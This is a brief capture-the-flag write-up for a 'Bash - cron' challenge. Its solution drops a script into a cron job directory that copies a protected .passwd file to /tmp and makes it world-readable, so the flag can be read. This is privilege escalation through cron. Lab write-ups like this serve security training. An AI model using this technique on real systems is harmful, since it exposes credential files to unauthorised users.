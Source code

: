 ## Bash - cron

| Author | Level | Points |
| ------ | ----- | ------ |
| g0uz | Medium | 20 |


> Crontab

#### Solution

Create a `job` for `crontab` in `/tmp/._cron` and edit it

```sh
#!/bin/sh
/bin/cat /challenge/app-script/ch4/.passwd > /tmp/pass
chmod 777 /tmp/pass
```

```
chmod 777 /tmp/._cron/job
```

Then `cat` `/tmp/pass` to get the flag.
